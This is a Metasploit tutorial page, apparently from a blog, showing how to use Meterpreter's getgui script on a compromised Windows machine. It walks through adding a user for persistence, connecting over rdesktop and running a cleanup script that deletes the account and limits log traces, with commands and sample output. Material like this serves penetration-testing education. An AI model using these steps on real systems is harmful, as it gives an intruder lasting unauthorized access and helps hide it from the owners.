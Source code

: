 ```yaml
---
draft: false
title: MSF Remote Desktop Module
date: 2017-05-05T13:30:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: In this article, we will see how we can create a user in the system using the getgui command and then connect to this computer with the rdesktop command.
url: /msf-remote-desktop-module/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
linkTitle: MSF Remote Desktop
translationKey:: msfremotedesktop
weight: 1
---
```


When you open a shell with Meterpreter in Metasploit Framework, one of the operations that can be done is to implement a remote desktop connection. The `getgui` command is very useful for this.

In this article, we will see how we can create a user in the system using the `getgui` command and then connect to this computer with the `rdesktop` command.

We assume that you have opened the Meterpreter shell on the target computer. Now we need the username and password required to establish a visual connection using the getgui command. When you create such a username and password, you will have ensured permanence.

First, let's look at the `getgui` help titles.

```bash
meterpreter > run getgui -h
Windows Remote Desktop Enabler Meterpreter Script
Usage: getgui -u  -p 
Or:    getgui -e

OPTIONS:

    -e   Enable RDP only.
    -f   Forward RDP Connection.
    -h   Help menu.
    -l   The language switch
         Possible Options: 'de_DE', 'en_EN' / default is: 'en_EN'
    -p   The Password of the user
```

## Adding a User

Generally, -u is used to specify the username, -p the password. When you use the getgui command in a similar way to the example below, you add a new user to the system.

```bash
meterpreter > run getgui -u loneferret -p password
> Windows Remote Desktop Configuration Meterpreter Script by Darkoperator
> Carlos Perez carlos_perez@darkoperator.com
> Language detection started
>   Language detected: en_US
> Setting user account for logon
>   Adding User: loneferret with Password: password
>   Adding User: loneferret to local group ''
>   Adding User: loneferret to local group ''
> You can now login with the created user
> For cleanup use command: run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc
meterpreter >
```

## Remote Desktop Connection

Now the user is created. You can connect to the remote desktop using this username and password from another computer on the same network.

```bash
root@kali:~#: rdesktop -u loneferret -p password 192.168.101.108
```

## Log Cleaning

The more you play around with the target system, the more likely you are to be recorded in the log records. For this reason, you should avoid unauthorized actions as much as possible or be content with intervening where necessary.

You may want to clean the log records of the user and session information you created with getgui. The following command example will be useful for this. You can check the most up-to-date version of the /root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc file used in the example from the same folder.

```bash
meterpreter > run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc
> Running Command List ...
>   Running command execute -H -f cmd.exe -a "/c net user hacker /delete"
Process 288 created.
meterpreter >
```
